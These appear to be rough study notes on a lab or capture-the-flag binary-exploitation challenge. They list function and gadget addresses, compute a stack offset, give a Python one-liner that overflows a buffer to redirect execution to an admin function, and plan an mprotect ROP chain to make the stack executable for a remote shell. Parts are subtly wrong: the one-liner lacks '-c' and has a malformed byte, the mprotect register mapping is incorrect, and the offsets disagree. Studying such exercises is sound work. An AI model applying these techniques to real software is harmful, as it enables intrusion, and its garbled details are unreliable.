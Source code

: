 gets = 0x00000000004011df
Instruction of isAdmin = 0x080492bc
&name = 0x7fffffffd900

This is THE FUNC WE WANT to overwrite!!!
0x08049299

Register:
$rsp = 0x7fffffffd300 => 6 bytes used
$rbp = 0x7fffffffdb00

previous value of $rsp (stack pointer) = 0x08049294
get to print func

Main stack function:
$rsp = 0xffffc590
just after the jump to printName = 0x00000000 0040116e

get to thsi function: 0x0000000000401146 (main)

TOOD: Need to manipulate the return value to jump to welcomeAdmin
![](./RCE_location.png)

0xffffc58c - 0xffffc56c = 32 bytes needed

python3 "import sys; sys.stdout.buffer.write(28 * b'C' + b'\x4a\x93\x04\08')" > ./challenge

--------------------------------------------------------------------
Address randomisation occurs -> need to update locally

Interesting how the make file did not compile it automatically to 64bit
(x64) and resort to x86 (32 bits) instead

Further supported by the fact that the challenge binary is huge 😭
![](./file-size.png)

Static linking means we can use the libc binaries
![](./file-properties.png)
![](./checksec.png)

Notice that the main function and f function does not have a stack canary!!
![](./no-canary.png)

Attack:
We will make the stack executable by using the function
mprotect within libc to remove stack execution protection.

Then insert remote shell

TODO:
We need to know how mprotect function works
Page aligned address
<https://man7.org/linux/man-pages/man2/mprotect.2.html>

`int mprotect(addr[.size],    size,            protection);`
registers:      RDI ,         RSX,        ,     RDI

PROT_READ = 4
PROT_WRITE = 2
PROT_EXEC = 1
protection = 0x7

dl_pagesize = (little endian): 0x00 10 00 00 00 00 00 00
            = 0x 00 00 00 00 00 00 10 00
            = 4096 bytes

__libc_stack_end = 0x0049fa38
puts = 0x0040a780

0x0000000000402081 : pop rdi ; ret
